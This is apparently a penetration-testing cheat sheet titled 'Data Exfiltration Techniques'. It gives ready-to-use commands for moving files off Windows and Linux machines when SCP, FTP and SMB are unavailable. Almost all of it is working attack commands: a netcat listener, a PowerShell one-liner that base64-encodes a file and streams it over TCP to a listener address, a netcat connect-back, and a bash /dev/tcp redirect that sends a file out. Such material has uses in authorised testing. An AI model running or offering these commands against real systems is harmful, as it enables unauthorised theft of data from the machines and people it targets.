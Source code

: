 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***

### Windows To Linux

###### Setup NetCat listener on Linux host:

```
nc -nlvp %ListeningPort% | base64 -d > file.ext
```

###### On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***

### Linux To Linux

#### Send file from remote client to host machine:

###### Setup NetCat listener on Linux host:

```
nc -nlvp port > file.ext
```

###### On the Linux client connect back with NetCat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext 
```

###### If NetCat is unavailable, on the Linux client connect back with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```
